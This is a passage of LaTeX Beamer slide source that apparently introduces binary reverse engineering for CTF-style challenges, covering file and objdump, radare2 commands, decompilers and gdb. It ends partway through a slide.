\begin{frame}[fragile,plain]

  {\Huge A wild binary appears!}
  \vspace{1em}

  \begin{lstlisting}
$ file ./pwn
pwn: ELF 32-bit LSB executable, Intel 80386,
  version 1 (GNU/Linux), statically linked,
  for GNU/Linux 2.6.24,
  not stripped
  \end{lstlisting}

\end{frame}


\begin{frame}[fragile,plain]

  \huge
  \begin{center}
    \verb+$ objdump -d ./pwn | less+
  \end{center}
\end{frame}

{\setbeamercolor{background canvas}{bg=black}
\begin{frame}[fragile,plain]
  \begin{center}
    
\includegraphics[width=\textwidth]{../images/objdump.png}
  \end{center}
\end{frame}
}


{\setbeamercolor{background canvas}{bg=red}
\begin{frame}[plain]
  \begin{center}
    \href{http://radare.org}{
\includegraphics[height=3em]{../images/r2logo.pdf}}\\
    \Huge\textbf{\textcolor{white}{%
      Keep Calm \\
      And \\
    Use \texttt{radare2} \\
    \textsc{From }\texttt{git}}}
  \end{center}

  \note{
    \begin{itemize}
      \item Hex Editor
      \item Disassembler/Assembler
      \item Debugger
      \item Code emulation
      \item Binary Diffing
      \item Scriptable
      \item \ldots
    \end{itemize}
  }
\end{frame}
}

{\setbeamercolor{background canvas}{bg=black}
\begin{frame}[plain]
  \begin{center}
    
\includegraphics[width=\textwidth]{../images/radare-disas1.png}
  \end{center}
\end{frame}

\begin{frame}[plain]
  \begin{center}
    
\includegraphics[width=\textwidth]{../images/radare-disas3.png}
  \end{center}
\end{frame}

\begin{frame}[plain]
  \begin{center}
    
\includegraphics[width=\textwidth]{../images/radare-disas2.png}
  \end{center}
\end{frame}

%\begin{frame}[plain]
%  \begin{center}
%    \color{white} \texttt{objdump} and C++ symbols

%    \vspace{2em}

%    
\includegraphics[width=\textwidth]{../images/objdump-cpp.png}
%  \end{center}
%\end{frame}

%\begin{frame}[plain,fragile]
%  \begin{center}
%    \color{white} \verb+e asm.demangle=true+

%    \vspace{2em}

%    
\includegraphics[width=\textwidth]{../images/r2-cpp.png}
%  \end{center}
%\end{frame}
}

\begin{frame}[fragile]
  {radare2 -- example commands}

  \begin{itemize}
    \item Search for functions containing \verb+"exec"+ \\
      \begin{center}
        \verb!afl~exec!
      \end{center}
    \item Show/search all strings in the file \\
      \begin{center}
        \texttt{izz} \\
        \verb!izz~FLAG!
      \end{center}
    \item Compute \texttt{CRC32} over next 32 byte \\
      \begin{center}
        \verb+#crc32 32+
      \end{center}
  \end{itemize}

\end{frame}


\begin{frame}[fragile]
  {Binary Decompilers}

  \begin{itemize}
    \item No really good open source binary decompilers \verb+:(+
      \begin{itemize}
        \item The radare guys are working on one
      \end{itemize}
    \item Commercial/Closed-Source
      \begin{itemize}
        \item Hex-Rays/IDA Pro Decompiler (\$\$\$)
        \item \href{http://hopperapp.com/}{Hopper} (\$)
        \item \href{https://retdec.com/}{retdec} (free, webservice, no \verb+x86_64+)
      \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[plain]
	\begin{center}
    \huge Debugging?
	\end{center}
\end{frame}


{\setbeamercolor{background canvas}{bg=black}
\begin{frame}[plain]
  \begin{center}
    
\includegraphics[height=\textheight]{../images/gdb-plain.png}
  \end{center}
\end{frame}

\begin{frame}[plain]
  \begin{center}
